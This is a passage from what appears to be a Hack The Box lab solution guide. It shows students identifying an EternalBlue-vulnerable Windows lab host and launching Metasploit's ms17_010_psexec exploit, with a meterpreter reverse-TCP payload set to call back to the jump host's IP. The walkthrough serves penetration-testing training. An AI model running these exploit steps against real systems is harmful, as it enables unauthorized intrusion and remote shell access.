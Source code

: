 ```
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-11T00:17:26-08:00
```

The hint provided for this question says that the vulnerability makes many a sysadmin feel "Blue", therefore, it is referring to the `EternalBlue` exploit:

![[HTB Solutions/CPTS/z. images/8e267b5b394b70cdbee7853292a44a64_MD5.jpg]]

Therefore, students need to launch `msfconsole` and use the `exploit/windows/smb/ms17_010_psexec` module/exploit:

Code: shell

```shell
msfconsole -q
use exploit/windows/smb/ms17_010_psexec
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $msfconsole -q

msf6 > use exploit/windows/smb/ms17_010_psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Subsequently, students need to set the options of the module, most importantly, setting `LHOST` to be the IP address of the jump host. To attain the IP address, students need to use the `ip` command and `grep` for the interface having an address of 172.16.1.\*:

Code: shell

```shell
ip a | grep "172.16.1.*"
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $ip a | grep "172.16.1.*"

    inet 172.16.1.5/23 brd 172.16.1.255 scope global ens224
```

The `ens224` interface has the IP address `172.16.1.5` in here (thus, it will be utilized as `PWNIP`):

Code: shell

```shell
set LHOST PWNIP
set RHOSTS 172.16.1.13
```

```
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 172.16.1.5

LHOST => 172.16.1.5
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 172.16.1.13
RHOSTS => 172.16.1.13
```
